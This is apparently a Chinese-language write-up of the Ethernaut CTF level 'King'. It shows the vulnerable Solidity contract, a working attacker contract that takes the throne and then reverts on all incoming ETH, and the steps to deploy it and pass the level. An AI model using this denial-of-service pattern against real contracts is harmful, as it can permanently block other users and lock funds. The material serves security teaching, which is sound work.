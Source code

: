 # level9 King

# 1. 问题

要求你成为`King`合约的owner，且别的合约无法替代你成为owner。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
    address king;
    uint256 public prize;
    address public owner;

    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }

    receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        payable(king).transfer(msg.value);
        king = msg.sender;
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}
```

# 2. 解法

整体思路分为两步：

1. 首先向 `King` 合约转入 ETH，触发其 `receive` 函数逻辑执行，成为 `owner`。
2. 通过破坏 `receive()` 的正常执行，确保其他合约或 EOA 无法成功调用 `King` 的 `receive` 函数，从而避免被取代为 `owner`。

为了实现这个功能，我们将合约设计如下：

```solidity
contract UnchangedKing {
    address private king;

    constructor(address _k) {
        king = _k;
    }

    function overtake() external payable {
        // console.log("start overtake, msg.value:", msg.value);
        // console.log("start overtake, gasleft  :", gasleft());
        // case1: 可行
        (bool success,) = king.call{value: 0.001 ether}("");
        // 这样会出错，gas是为了后面支付合约执行使用的, 真实值会远大于 msg.value, 而且不是一个维度的东西
        // (bool success, ) = king.call{value: gasleft() * 19 /20}("");
        require(success, "send eth failed");
    }

    receive() external payable {
        revert("No direct ETH transfers allowed");
        // 下面这种写法是不行的。因为owner可以transfer(0)给当前合约，导致下面这个判断不生效
        // require(msg.value < 1, "reject be overtaken!");
    }
}
```

1. 代码部署到remix，编译

2. 部署，参数填上合约地址 

> [!TIP]
> 注意，合约初始化时的参数应填写 `instance` 的地址，而非 `level` 的地址。

3. 先查询下浏览器，看下合约目前有多少eth, 发现是1 finney

4. 调用overtake函数，就传入1 finney 

5. submit instance，通过！


# 3. 补充阅读：调试

起初，我们尝试了 `require(msg.value < 1, "reject be overtaken!");` 的写法，但发现无法通过。因此，我们编写了一个调试程序 [Level9_localTest.t.sol](../../test/level9/Level9_localTest.t.sol)。你可以在项目根目录执行以下命令进行调试：

```bash
forge test -vvvv --match-contract Level9LocalTest
```

| [⬅️ level8 Vault](../level8_vault/README.md) | [level10 Reentrancy ➡️](../level10_reentrancy/README.md) |
|:------------------------------|--------------------------:|